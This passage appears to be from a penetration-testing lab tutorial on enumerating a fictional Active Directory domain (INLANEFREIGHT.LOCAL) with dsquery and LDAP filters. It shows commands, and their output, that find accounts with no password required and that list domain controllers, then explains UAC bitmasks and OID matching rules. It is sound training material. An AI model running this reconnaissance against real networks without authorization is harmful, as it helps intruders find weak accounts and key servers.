"CN=Denied RODC Password Replication Group,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Read-only Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Read-only Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Cloneable Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Key Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Key Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=DnsAdmins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=DnsUpdateProxy,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=certsvc,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Ramsey,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=svc_vmwaresso,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
<SNIP>
Users with specific Attributes Set
You can, of course, combine dsquery with LDAP search filters of your choosing. The below looks for users with the PASSWD_NOTREQD flag set int userAccountControl attribute.
PS C:\htb> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
distinguishedName userAccountControl
CN=Guest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL 66082
CN=Marion Lowe,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL 66080
CN=Yolanda Groce,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL 66080
CN=Eileen Hamilton,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL 66080
CN=Jessica Ramsey,CN=Users,DC=INLANEFREIGHT,DC=LOCAL 546
CN=NAGIOSAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL 544
CN=LOGISTICS$,CN=Users,DC=INLANEFREIGHT,DC=LOCAL 2080
CN=FREIGHTLOGISTIC$,CN=Users,DC=INLANEFREIGHT,DC=LOCAL 2080
Searching for DCs
The below search filter looks for all DCs in the current domain, limiting to five results.
PS C:\Users\forend.INLANEFREIGHT> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
sAMAccountName
ACADEMY-EA-DC01$
LDAP Filtering Explained
You will notice in the queries above that you are using strings such as userAccountControl:1.2.840.113556.1.4.803:=8192. These strings are common LDAP queries that can be used with several different tools too, including AD PowerShell, ldapsearch, and many others.
userAccountControl:1.2.840.113556.1.4.803: specifies that you are looking at the User Account Control attributes for an object. This portion can change to include three different values.
UAC Values
=8192 represents the decimal bitmask you want to match in this search. This decimal number corresponds to a corresponding UAC attribute flag that determines if an attribute like password is not required or account is locked is set. These values can compound and make multiple different bit entries.

OID match strings
OIDs are rules used to match bit values with attributes, as seen above. For LDAP and AD, there are three main matching rules:
1.2.840.113556.1.4.803
When using this rule as you did in the example above, you are saying the bit value must match completely to meet the search requirements. Great for matching a singular attribute.
1.2.840.113556.1.4.804
When using this rule, you are saying that you want your results to show any attribute match if any bit in the chain matches. This works in the case of an object having multiple attributes set.
1.2.840.113556.1.4.1941
This rule is used to match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.
Logical Operators
When building out search strings, you can utilize logical operators to combine values for the search. The operators &, |, and ! are used for this purpose. For example you can combine multiple search criteria with the & operator like so: (&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64)) .
The above example sets the first criteria that the object must be a user and combines it with searching for a UAC bit value of 64 (Password can't change). A user with that attribute set would match the filter. You can take this even further and combine multiple attributes like (&(1) (2) (3)). The ! and | operators can work similarly. For example, your filter above can be modified as follows: (&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64)).
This would search for any user object that does NOT have the "Password Can't Change" attribute set. When thinking about users, groups, and other objects in AD, you ability to search with LDAP queries is pretty extensive.
A lot can be done with UAC filters, operators, and attribute matching with OID rules.